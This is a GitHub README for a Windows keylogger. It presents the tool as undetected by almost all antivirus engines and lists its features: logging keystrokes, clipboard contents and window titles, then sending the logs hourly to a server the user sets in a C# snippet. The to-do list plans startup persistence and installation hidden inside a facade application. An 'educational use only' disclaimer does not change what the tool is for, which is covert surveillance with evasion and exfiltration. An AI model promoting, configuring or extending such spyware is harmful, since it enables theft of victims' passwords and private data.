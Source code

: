 

# Windows Keylogger
It is a Windows keylogger undetected by all major anti-virus.

## Virustotal

This keylogger is undetected by 99% of the anti-virus on [**virustotal**](https://www.virustotal.com/gui/).

<img src="https://raw.githubusercontent.com/clementwzk/Windows-Keylogger/refs/heads/main/Capture1.PNG" width="500"/>

## Installation

Download the [lastest release](https://github.com/Darkempire78/Windows-Keylogger/releases/) and install it.

You can edit the lines 18-19 to add your server where send logs :
```Csharp
string serverLink = "http://server-example/getLog.php";
string serverArg = "log";
```

## Features

* Log keys
* Log the clipboard
* Log window titles
* Send logs to a server each hour

## Logs example

![](Capture2.PNG)

## To do

- [ ] Start the keylogger when the computer is starting
- [ ] Install the keylogger from a facade application
- [ ] Improve the specific country keyboard support


## Contributing

Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.

## Disclaimer

**This project is for educational use only. Installing computer monitoring tools on computers you do not own or do not have permission to monitor may violate local, state or federal law.**

Logging other people's keystrokes or breaking into other people's computer without their permission can be considered illegal by the courts of many countries. The monitoring software reviewed here is ONLY for authorized system administrators and/or owners of computers. We assume no liability and are not responsible for any misuse or damage caused by the keylogging software. The end user of this software is obliged to obey all applicable local, state, federal and other laws in his country of residence.

## License

This project is under [GPLv3](https://github.com/Darkempire78/Raid-Protect-Discord-Bot/blob/master/LICENSE).
